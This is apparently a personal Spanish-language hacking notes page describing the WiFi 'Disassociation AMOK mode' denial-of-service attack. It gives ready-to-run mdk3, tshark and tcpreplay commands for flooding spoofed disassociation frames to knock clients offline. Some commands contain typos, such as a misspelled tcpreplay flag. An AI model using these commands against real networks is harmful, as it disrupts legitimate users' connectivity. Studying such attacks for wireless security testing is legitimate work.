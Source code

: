 # DISASSOCIATION AMOK MODE

El ataque **Disassociation AMOK mode** o *Desasociación AMOK mode* explota una vulnerabilidad en el protoclo de autenticación y asociación del AP. Durante el proceso de conexión, el cliente envía un paquete de asociación al AP solicitando la conexión, y el AP responde con una confirmación. Este ataque consiste en enviar una gran cantidad de paquetese de desasociación falsificados a los clientes, forzándolos a desconectarse y generando tráfico execesivo en la red. Esto puede sobrecargar tanto a los clientes como al AP, provocando desconexiones frecuentes de los clientes legítimos.

---
# Exploit 

Como vimos en la fase de [[0. Hacking WiFi#Pre-Explotación]], es necesario llevar a cabo ciertas configuraciones previas para poner nuestra interfaz en modo monitor, matar ciertos procesos, etc. En este caso podríamos hacer uso de la herramienta `mdk3` para utilizar la funcionalidad de emisión de tramás de desasociación o, también podríamos hacer uso de herramientas como `tshark` / `wireshark` y `tcpreplay`.
###### Using `mdk3`

Lo primero que tenemos que hacer es crear una **blacklist** (Lista de clientes a desasociar) o **whitelist** (Lista de direcciones mac permitidas).

```bash
echo '00:11:22:33:44:55' > blacklist.txt
```

Una vez creada la list, podríamos hacer uso de la herramienta `mkd3` para enviar tramas de desasociación a los clientes de, en este ejemplo, la **blackslit**.

```bash
sudo mdk3 {interface} d -w blacklist.txt -c {channel}
```
###### Using `tshark` and `tcpreplay`

Lo primero que tenemos que hacer es capturar el tráfico de red para obtener tramas de desasociación.

```bash
sudo tshark -i {interface} -Y "wlan.fc.type_subtype == 0xA" -w {capture}.cap
```

En caso de querer hacer uso de `wireshark`, podríamos usar el filtro de visualización `wlan.fc.type_subtype == 0xA`. 

Nuevamente, similar al ataque [[Bandwidth Hijacking#Editing package]], haremos uso de la herramienta `ghex` o cualquier editor hexadeciaml para modificar las tramas de desasociación a gusto.

Tras la edición de estas tramas, haremos uso de `tcpreplay` para enviar repetidamente las tramas de desasociación modificadas.

```bash
sudo tcpreplay --intf1={interface} --topseepd --loop=2000 {deauth_modified_package}.pcap
```